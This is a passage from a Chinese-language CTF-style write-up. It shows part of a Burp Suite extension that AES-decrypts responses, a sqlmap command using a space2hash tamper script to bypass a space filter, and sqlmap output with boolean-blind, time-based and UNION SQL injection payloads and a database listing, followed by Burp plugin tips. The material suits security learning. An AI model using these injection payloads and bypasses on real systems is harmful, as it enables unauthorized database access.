 	        }else {
	            byte[] response = messageInfo.getResponse();
	            IResponseInfo respInfo = helpers.analyzeResponse(response);
	            int offset = respInfo.getBodyOffset();
	            String body = helpers.bytesToString(response).substring(offset);
	            String plantext = Util.aesDecode(key,body);
	            messageInfo.setResponse(helpers.stringToBytes(plantext));
	        }

	    }
	}

插件build后加载到burp中enable，再将sqlmap的流量代理到burp中，因为这个注入还有一个坑就是将space空格给替换了，所以这里加入一个tamper脚本来绕过这个filter机制。

sqlmap -r ~/Documents/cracksql.txt --proxy http://127.0.0.1:8080 --tamper space2hash.py

	sqlmap identified the following injection point(s) with a total of 78 HTTP(s) requests:
	---
	Parameter: id (PATCH)
	    Type: boolean-based blind
	    Title: AND boolean-based blind - WHERE or HAVING clause
	    Payload: id=1 AND 3122=3122

	    Type: AND/OR time-based blind
	    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
	    Payload: id=1 AND (SELECT * FROM (SELECT(SLEEP(5)))GVuA)

	    Type: UNION query
	    Title: MySQL UNION query (NULL) - 2 columns
	    Payload: id=-5803 UNION ALL SELECT NULL,CONCAT(0x716a6a7871,0x647970627157614649706c49466f647248475a6f6f66555977736d644845537976796a696c645953,0x7171707171)#
	---
	back-end DBMS: MySQL 5.0.12
	sqlmap resumed the following injection point(s) from stored session:
	---
	Parameter: id (PATCH)
	    Type: boolean-based blind
	    Title: AND boolean-based blind - WHERE or HAVING clause
	    Payload: id=1 AND 3122=3122

	    Type: AND/OR time-based blind
	    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
	    Payload: id=1 AND (SELECT * FROM (SELECT(SLEEP(5)))GVuA)

	    Type: UNION query
	    Title: MySQL UNION query (NULL) - 2 columns
	    Payload: id=-5803 UNION ALL SELECT NULL,CONCAT(0x716a6a7871,0x647970627157614649706c49466f647248475a6f6f66555977736d644845537976796a696c645953,0x7171707171)#
	---
	back-end DBMS: MySQL 5.0.12
	available databases [4]:
	[*] information_schema
	[*] mysql
	[*] performance_schema
	[*] sangebaimao

这里如果不解密响应包的话就不能用UNION query来快速查库了，part3就在这个库里面。


### 0xff 归隐江湖

1. burp不会判断重复插件，加载新插件的时候记得移除老版本插件
2. 插件执行顺序按照ui上显示的顺序，可以使用down／up调整
3. 对method区分比较清楚，如果遇到post请求中url中也带有参数需要注意，当然一些奇怪的method处理起来也需要点变通
4. output如果输入内容较多ui显示不全，可以选择output to system console，然后去terminal中查看


